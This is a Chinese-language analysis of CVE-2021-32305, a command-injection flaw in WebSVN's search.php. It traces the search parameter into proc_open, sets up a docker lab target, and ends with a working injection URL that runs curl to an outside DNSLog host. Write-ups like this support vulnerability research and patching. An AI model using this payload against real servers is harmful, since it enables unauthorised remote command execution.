 # CVE-2021-32305 Websvn RCE 简单分析


# 简介  

WebSVN是一个基于Web的Subversion Repository浏览器。它将Subverion的各种功能操作通过Web界面提供出来。通过它，可以看到任何给定版本的任何文件或者目录的日志，并且可看到所有文件改动、添加、删除的列表。

# 漏洞描述  

该漏洞源于没有对`search.php?search=`参数进行严格的过滤，导致参数被带入`prox_open`中执行，造成命令注入

# 影响版本  

```
WebSVN <= 2.6.1
```

# 环境搭建  

本次测试是在vulfocus靶场上测试
可通过以下命令进行拉取docker
```
docker pull 1933pika/cve-2021-32305
docker run -d -p 80:80 1933pika/cve-2021-32305
```

# 漏洞分析

WebSVN源码：https://github.com/websvnphp/websvn/releases/tag/2.6.0

我们在`search.php`中搜索`search`参数，如下：

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/84537782-cb0b-8acb-c601-737d68c410ff.png)

会先判断`search`是否为空值，否的话参数会传入`showSearchResults`函数中，跟进该函数

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/204903e5-338f-78cc-54da-5621f113bb7e.png)

变量`$searchstring`即为原先的`search`，发现会继续传入到`getListSearch`函数中，然后继续跟进

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/41a594dd-15e2-f9a1-d451-96be0870c32f.png)

在`getListSearch`函数中，可以看出`$searchstring`会在1085行中进行拼接，然后先传入`svnCommandString`中进行操作，然后赋值给`$cmd`,然后将`$cmd`传入到`_xmlParseCmdOutput`函数中，接下来先跟进到`_xmlParseCmdOutput`函数中

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/4d42943c-ae84-c4c6-e8c7-0934e7d6d871.png)

发现`$cmd`会传入到`runCommand`函数中，然后继续跟进

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b39b7c59-be5e-5411-257d-7c71f86fc30c.png)

变量`$cmd`先会被进行检测是否有'>'和'|'，然后作为参数，放入到`proc_open`中执行命令

`proc_open`命令详解如下：

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/8aaa65ce-9e53-2c42-f98e-96e58b62e455.png)

自此`$_GET["search"]`会被当做命令执行，然后回过头来分析`svnCommandString`函数，看对变量`$searchstring`做了什么操作

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/1d357c8f-e07d-4c85-64bf-7c949eda6e6e.png)

发现只是对`$command`变量进行了一下拼接，没有额外的过滤

最后进行一下简单的总结，`$_GET["search"]`传入后，没有经过太严格的过滤，然后传入到`proc_open`中去执行命令，导致命令注入。

# 漏洞复现

访问80端口，在url中输入以下内容去执行命令：
```
/search.php?search=";curl xxx.dnslog.cn;"
```

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/aea1bf05-929b-3e74-a0fc-40156889fd94.png)

DNSLog有回显，命令成功被执行

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/f267ddad-b7c1-63a6-6c4e-dcb294d743d7.png)

